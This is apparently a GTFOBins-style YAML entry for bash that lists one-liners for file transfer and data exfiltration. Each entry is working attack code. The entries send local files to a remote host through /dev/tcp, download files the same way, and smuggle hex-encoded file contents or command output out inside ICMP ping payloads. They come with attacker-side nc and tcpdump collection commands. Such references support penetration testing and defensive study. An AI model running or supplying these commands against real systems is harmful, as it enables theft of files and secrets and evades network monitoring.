 ```yaml
---
functions:
  file-upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file.
      code: |
        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 4444 < "file_to_send"` on the attacker box to send the file.
      code: |
        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  data-exfiltration:
    - description: |
        Capture ICMP packets embedded in ping requests.
        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.             
        ⚠️ Increase the timeout flag based on the amount of data.                             
        ⚠️ Manual parsing or reconstruction is required.  
        
        Send local file content over ICMP using hex-encoded payloads.
      code: |
        hex=$(while IFS= read -r line; do for ((i=0; i<${#line}; i++));
        do printf "%02x" "'${line:$i:1}"; done; done < "$LFILE"); i=0;
        while [ $i -lt ${#hex} ]; do chunk="${hex:$i:16}";
        ping -c1 -p "$chunk" $RHOST; i=$((i+16)); done
    - description: Send command output over ICMP using hex-encoded payloads.
      code: |
        hex=$(cmd="$($CMD)"; while IFS= read -r line; do for ((i=0; i<${#line}; i++));
        do printf "%02x" "'${line:$i:1}"; done; done <<< "$cmd"); i=0;
        while [ $i -lt ${#hex} ]; do chunk="${hex:$i:16}";
        ping -c1 -p "$chunk" $RHOST; i=$((i+16)); done
---
```

